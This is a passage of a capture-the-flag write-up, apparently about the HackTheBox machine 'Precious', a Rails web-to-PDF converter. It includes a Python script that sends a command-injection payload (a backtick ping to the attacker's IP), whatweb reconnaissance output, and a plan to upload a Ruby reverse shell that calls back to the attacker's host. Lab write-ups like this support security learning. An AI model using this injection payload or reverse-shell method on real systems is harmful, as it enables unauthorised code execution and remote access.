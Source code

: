 > Wrap custom command in **quotes** if it has spaces.
</div>

####
####
####
## First explotation phase
### Ruby
Having that informacion and seeing the other information that the exploit show us as output terminal: `PAYLOAD: http://%20'ping -c 1 10.10.16.2'`, we could craft the same payload without the huge amount of code lines that posses the exploit.
####
<div class="tip">

> Is thime to craft our custom script the will help us to automate the **code execution** in the target machine.
</div>

####
```python
#!/usr/bib/python3

import requests

def main():
    url = 'http://precious.htb'
    param = 'url'
    command = 'http://%20`ping -c 1 10.10.16.2`'

    response = requests.post(url=url, params={param: command})
    print(response.text)

if __name__ == '__main__':
    main()
```
####
The server can't make a revershell via **bash** or **sh** with the common *One-liners*, we don't now if in background are running **python**, because we could craft a script in python trying to connect us using **sockets**. One way to find the version of the services that run in the target machine is using **whatweb**:
####
```ruby
whatweb 10.10.11.143

Result ->
http://10.10.11.189 [302 Found] Country[RESERVED][ZZ], HTTPServer[nginx/1.18.0], IP[10.10.11.189], RedirectLocation[http://precious.htb/], Title[302 Found], nginx[1.18.0]
http://precious.htb/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0 + Phusion Passenger(R) 6.0.15], IP[10.10.11.189], Ruby-on-Rails, Title[Convert Web Page to PDF], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-Powered-By[Phusion Passenger(R) 6.0.15], X-XSS-Protection[1; mode=block], nginx[1.18.0]
```
####
The machine posses a **ruby**, furthermore we could looking for revershell codes using ruby. I found one revershell code: [Revershell-Socket-Code](https://gist.github.com/gr33n7007h/c8cba38c5a4a59905f62233b36882325). We need to modify one line: `s.connect Socket.sockaddr_in <port_local_host>, '<ip_local_host>'`. We could insert this code as payload in our python script or insert that code into a `.rb` file and download that file using **wget**:
####
```ruby
touch revshell.rb

    #!/usr/bin/env ruby
    # syscall 33 = dup2 on 64-bit Linux
```